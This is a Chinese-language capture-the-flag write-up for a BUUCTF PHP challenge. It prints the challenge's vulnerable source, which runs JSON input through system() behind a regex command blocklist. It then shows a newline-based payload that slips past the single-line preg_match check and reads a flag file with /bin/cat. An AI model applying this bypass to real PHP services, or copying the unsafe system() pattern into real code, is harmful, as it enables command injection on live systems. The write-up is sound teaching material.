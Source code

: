 ### /bin 绕过环境变量

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d7ca4c88c538a9b5bfe124.png)

打开网页需要 JSON 格式输入

![](https://pic1.imgdb.cn/item/67d7ca7688c538a9b5bfe138.png)

输入 `{"cmd":"ls"}`，只有一个 index,php，而且不能读取

![](https://pic1.imgdb.cn/item/67d7caa388c538a9b5bfe14e.png)

网站源码如下：

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

过滤的很严，但是可以绕过 preg_match() 函数本身

因为 preg_match() 只会去匹配第一行，所以这里可以用多行进行绕过

这行代码已经修改了环境变量，我们只能用绝对路径来调用系统命令

```php
putenv('PATH=/home/rceservice/jail');
```

cat 命令在 /bin 中保存

所以构造出 payload ，%0A 是换行符

```php
{%0A"cmd": "/bin/cat /home/rceservice/flag"%0A}
```

